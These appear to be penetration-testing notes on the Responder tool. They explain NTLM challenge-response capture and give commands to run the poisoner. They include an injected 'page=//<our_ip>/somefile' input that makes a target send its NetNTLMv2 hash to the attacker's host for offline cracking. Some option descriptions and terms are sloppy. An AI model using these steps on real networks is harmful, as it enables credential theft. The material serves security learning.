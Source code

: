 # Responder

## Overview

IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

https://github.com/lgandx/Responder


## SMB NTLMv1/v2 Relay

When the target machine attempts to perform the NTLM authentication to that server, Responder
sends a challenge back for the server to encrypt with the user's password. When the server responds,
Responder will use the challenge and the encrypted response to generate the NetNTLMv2. While we can't
reverse the NetNTLMv2, we can try many different common passwords to see if any generate the same
challenge-response, and if we find one, we know that is the password. This is often referred to as hash
cracking, which we'll do with a program called John The Ripper.

Check in the Responder.conf file that the flag for SMB is ON.
Then run Responder with

	sudo python3 Responder.py -I <interface_name> (or sudo responder -I <interface_name>)

Now that the Responder server is listening, we make a request for a nonexistent file in our local machine so that Responder can get the NTLVM hash/challenge

	http:\\<target_ip>/?page=//<our_ip>/somefile

	or

	gci \\<local_ip>\share\somefile #from powershell

You should see the hash printed on Responder. Save the hash to a file and crack it with a tool like johntheripper or hashcat
## Installation

	git clone https://github.com/lgandx/Responder
	Default installation path (in Kali):  /usr/share/responder/

## Command Options

	-I <interface_name> : Sets which interface to linsten/use
	-A:	Analyse mode. Sees requests but doesnt respond.

	-w: enables SMB poisoning.
	-r: captures hashes from NTLM authentication.
	-f: forces logging to a file.
	-v: increase verbosity


## Usage

	sudo responder -I <interface_name> -wrf -v

Only analyse

	sudo responder -I <interface_name> -A -v